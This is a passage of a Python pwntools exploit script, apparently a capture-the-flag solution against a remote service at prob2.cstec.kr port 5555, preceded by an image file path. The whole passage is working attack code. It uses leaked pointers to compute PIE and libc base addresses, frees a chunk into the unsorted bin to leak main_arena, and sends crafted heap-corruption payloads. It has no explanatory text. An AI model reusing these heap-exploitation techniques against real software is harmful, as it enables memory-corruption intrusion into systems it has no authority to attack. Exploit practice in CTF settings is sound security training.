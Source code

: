 ```py
    PIE_BASE = u64(leak[-8:]) - 0x5040
    log.info(f"PIE_BASE: {hex(PIE_BASE)}")

    ## FREE \x11\x22\x33\x44\x55\x66 CHUNK TO UNSORTED BIN. ##
    pay = delete_chunk(b"\x11\x22\x33\x44\x55\x66")
    pay += b"\x00"*3 + p8(0xda)
    pay += b"e" + b"\xFF"
    pay += b'\x00'*12
    pay += b"\x11\x22\x33\x44\x55\x66"
    s.send(pay)

    ## LEAK \x11\x22\x33\x44\x55\x66 CHUNK'S MAIN_ARENA. ##
    pay = read_chunk()
    pay = pay.ljust(0xf4c, b'\xFF')
    pay += b"e" + b"\xFF"
    s.send(pay)

    leak = s.recvuntil(b'\x7f', timeout=2)
    LIBC_BASE = u64(leak[-6:].ljust(8, b'\x00')) - 0x219ce0
    log.info(f"LIBC_BASE: {hex(LIBC_BASE)}")
    if LIBC_BASE < 0:
        s.close()
        s = remote('prob2.cstec.kr', 5555)
    else:
        break

## DUMMY CHUNK 1 ##
pay = write_chunk(b"B"*6)
pay += b"\x00"*3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\x10"

s.send(pay)
sleep(1)

## DUMMY CHUNK 2 ##
pay = write_chunk(b"C"*6)
pay += b"\x00"*3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\x10"

s.send(pay)
sleep(1)

# db(s)

## DUMMY CHUNK 3 ##
pay = write_chunk(b"D"*6)
pay += b"\x00"*3 + p32(flag)
pay += p8(filed_18)
pay += b"e" + b"\xFF"
pay += b"\x00" * (0xFF+2)
pay += b"8" + b"\x10"

s.send(pay)
sleep(1)

# db(s)

```